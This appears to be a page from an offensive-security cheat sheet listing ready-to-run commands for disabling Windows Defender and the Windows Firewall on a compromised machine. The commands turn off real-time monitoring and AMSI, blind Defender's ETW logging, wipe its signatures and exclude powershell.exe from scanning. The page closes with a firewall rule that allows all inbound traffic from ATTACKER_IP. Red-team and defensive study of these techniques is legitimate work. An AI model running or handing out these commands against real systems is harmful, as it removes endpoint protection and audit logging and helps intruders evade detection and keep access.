 ### Disable Windows Defender

```powershell
# Disable Defender
sc config WinDefend start= disabled
sc stop WinDefend
Set-MpPreference -DisableRealtimeMonitoring $true

## Exclude a process / location
Set-MpPreference -ExclusionProcess "word.exe", "vmwp.exe"
Add-MpPreference -ExclusionProcess 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe'
Add-MpPreference -ExclusionPath C:\Video, C:\install

# Disable scanning all downloaded files and attachments, disable AMSI (reactive)
PS C:\> Set-MpPreference -DisableRealtimeMonitoring $true; Get-MpComputerStatus
PS C:\> Set-MpPreference -DisableIOAVProtection $true
# Disable AMSI (set to 0 to enable)
PS C:\> Set-MpPreference -DisableScriptScanning 1 

# Blind ETW Windows Defender: zero out registry values corresponding to its ETW sessions
reg add "HKLM\System\CurrentControlSet\Control\WMI\Autologger\DefenderApiLogger" /v "Start" /t REG_DWORD /d "0" /f

# Wipe currently stored definitions
# Location of MpCmdRun.exe: C:\ProgramData\Microsoft\Windows Defender\Platform\<antimalware platform version>
MpCmdRun.exe -RemoveDefinitions -All

# Remove signatures (if Internet connection is present, they will be downloaded again):
PS > & "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\MpCmdRun.exe" -RemoveDefinitions -All
PS > & "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All

# Disable Windows Defender Security Center
reg add "HKLM\System\CurrentControlSet\Services\SecurityHealthService" /v "Start" /t REG_DWORD /d "4" /f

# Disable Real Time Protection
reg delete "HKLM\Software\Policies\Microsoft\Windows Defender" /f
reg add "HKLM\Software\Policies\Microsoft\Windows Defender" /v "DisableAntiSpyware" /t REG_DWORD /d "1" /f
reg add "HKLM\Software\Policies\Microsoft\Windows Defender" /v "DisableAntiVirus" /t REG_DWORD /d "1" /f
```


### Disable Windows Firewall

```powershell
Netsh Advfirewall show allprofiles
NetSh Advfirewall set allprofiles state off

# ip whitelisting
New-NetFirewallRule -Name morph3inbound -DisplayName morph3inbound -Enabled True -Direction Inbound -Protocol ANY -Action Allow -Profile ANY -RemoteAddress ATTACKER_IP
```
